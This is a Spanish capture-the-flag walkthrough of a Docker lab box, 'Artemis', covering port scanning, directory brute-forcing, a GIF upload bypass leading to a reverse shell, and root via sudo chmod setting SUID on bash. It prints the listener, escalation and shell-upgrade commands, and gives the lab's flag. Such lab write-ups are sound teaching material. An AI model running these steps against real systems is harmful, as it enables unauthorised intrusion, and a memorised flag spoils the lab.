Artemis
QUE ES DOCKER Y COMO LO INSTALO
sudo apt update
sudo apt install -y docker.io
sudo systemctl enable docker --now
sudo usermod -aG docker $USER
COMO EJECUTAR UN LABORATORIO
# 1. Descomprimir el archivo
tar -xvf transportadora_rapida.tar
# 2. Entrar a la carpeta
cd transportadora_rapida
# 3. Ejecutar el laboratorio con el script incluido
sudo bash startlab.sh transportadora_rapida.tar
SE INICIA EL LABORATORIO EN EL DOCKER

Reconocimiento
sudo nmap -p- --open -sS -sC -sV --min-rate 5000 -vvvv -n -Pn 172.17.0.2
80/tcp open http syn-ack ttl 64 Apache httpd 2.4.41 ((Ubuntu))
|_http-title: \xF0\x9F\x8F\xB9 Artemis Gallery - Comparte tus momentos de caza
|_http-server-header: Apache/2.4.41 (Ubuntu)
| http-methods:
|_ Supported Methods: GET HEAD POST OPTIONS
2222/tcp open ssh syn-ack ttl 64 OpenSSH 8.2p1 Ubuntu 4ubuntu0.13 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
| 3072 ee:5e:03:a8:fe:a4:e8:1e:a6:f3:6e:9b:6b:1f:73:35 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQDR2Oj9Yc7ygRjlichchLYiap2U9jpOCt+Wzl0Ptn9XTaP0ST/p1ZpRp6HjbaZND/ojjwz3ojj1IBF8A59J5JiwrEVssFMLlGRhmnVUVhe5uZd/cA68D7kHUvK/G1A+vFUFRO7fbG6Xuqpi9LhoPPSV/uf5q20d34oKAPiyHr84Ehj/wyxT61wp6xFbXohov6hsO+loM/UzeEw4gfuOdTMOXCalmGhnByzdyp95SRzC/TAFW2utwyaU5GvJvtl1EH5UecpKsk3rZ38l2ixGKsnKnuZExp3qK3pbkSEL5opMP5xkSUWXKUxUsiLfq+NYJUPoXmkp3ObspHRpuUAr9PZgj6JuCoAUbIFE49THWM6kTrJBxrhetYDzD9euVJ28O0uqAyKYYK143aMboWp+rhgGsG80/4EvhDwdD7FXwpstFeixyg9NxjFU9vd2IlZzZ5nReqmhlNe++iMjFjaNt0RJdiHnyY3yg0qTfHcbs03WasY2u/S1zF8Vq8kcSA9WLgc=
| 256 b4:f0:55:5a:d1:23:3d:d3:4a:bd:04:3a:77:3d:dc:36 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBLyQvZD6h0xE/gi2Z7amXwNsrIjIW/Q2g48nu2DSgBLDjqaVucOi5eWlcxkQd3ocEsqD4voFNKOO36/VAY0PyOk=
| 256 a7:7d:cd:94:6d:c2:5a:dd:63:04:25:c8:29:dd:9f:a3 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAINnqD8ZefHL33kPcEQfmBdVEz3gGPSKGPRv72LQb73tQ
MAC Address: D2:B4:E2:E9:2D:FE (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
SE ACCEDE A WEB PARA RECONOCER CONTENIDO

Análisis
SE OBSERVA LA POSIBILIDAD DE SUBIR ARCHIVOS
UNICAMENTE .GIF

SE EJECUTA UN RECONOCIMIENTO PREVIO DE SUBDOMINIOS CON dirsearch
dirsearch -u http://172.17.0.2 -w /usr/share/wordlists/dirb/common.txt -e all
_|. _ _ _ _ _ _|_ v0.4.3
(_||| _) (/_(_|| (_| )
Extensions: all | HTTP method: GET | Threads: 25 | Wordlist size: 4613
Output File: /home/kali/reports/http_172.17.0.2/_26-04-17_16-25-26.txt
Target: http://172.17.0.2/
[16:25:26] Starting:
[16:25:28] 301 - 309B - /assets -> http://172.17.0.2/assets/
[16:25:42] 403 - 275B - /server-status
[16:25:45] 301 - 310B - /uploads -> http://172.17.0.2/uploads/
Task Completed
SE DESCUBRE EL SUBDIRECTORIO /uploads QUE SE VERIFICA

Explotación
SE PRUEBA A SUBIR UN ARCHIVO Y SE COMPRUEBA


CONSULTAMOS NUESTRA IP
ifconfig
eth0: flags=4163<UP,BROADCAST,RUNNING,MULTICAST> mtu 1500
inet 10.0.2.15 netmask 255.255.255.0 broadcast 10.0.2.255
inet6 fe80::a00:27ff:fe8d:64ca prefixlen 64 scopeid 0x20<link>
ether 08:00:27:8d:64:ca txqueuelen 1000 (Ethernet)
RX packets 139468 bytes 169475322 (161.6 MiB)
RX errors 0 dropped 0 overruns 0 frame 0
TX packets 25565 bytes 3872644 (3.6 MiB)
TX errors 0 dropped 0 overruns 0 carrier 0 collisions 0
CON LA IP DE NUESTRA MAQUINA DESCARGAMOS UN PAYLOAD PARA REVERSHELL

SE PONE UN LISTENER EN ESCUCHA
nc -nlvp 4444
listening on [any] 4444 ...
SE SUBE EL ARCHIVO .GIF Y SE OBTIENE REVERSESHELL

Post-explotación
SE VERIFICA QUIENES SOMOS EN EL SISTEMA
SE REVISAN PERMISOS DE SUPERUSUARIO PARA ESCALADA DE PRIVILEGIOS

SE OBSERVA QUE EL BINA /bin/chmod POSEE PERMISOS SIN PASSWD
SE CREA UN BASH CON SUID
PRIMERO SE DAN PERMISOS SUID A LA BASH
sudo /bin/chmod +s /bin/bash
SEGUNDO SE EJECUTA LA BASH PRESERVANDO EL PERMISO

Captura de Flag
SE MEJORA SHELL
PASO 1
python3 -c 'import pty; pty.spawn("/bin/bash")'
bash-5.0# whoami
whoami
root
bash-5.0# PASO 2
PASO 3
CTRL + Z
PASO 4
ENTER DOS VECES Y TENEMOS SHELL MEJORADA
SE BUSCA FLAG
find / -name "*flag*" 2>/dev/null

BUSCAR ARCHIVOS CREADOS POR EL USUARIO ROOT
find / -user root -name "flag*" 2>/dev/null
SE OBTIENE FLAG
cat root/flag.txt
ARTEMIS{g1f_upl04d_hunt3r_2026}
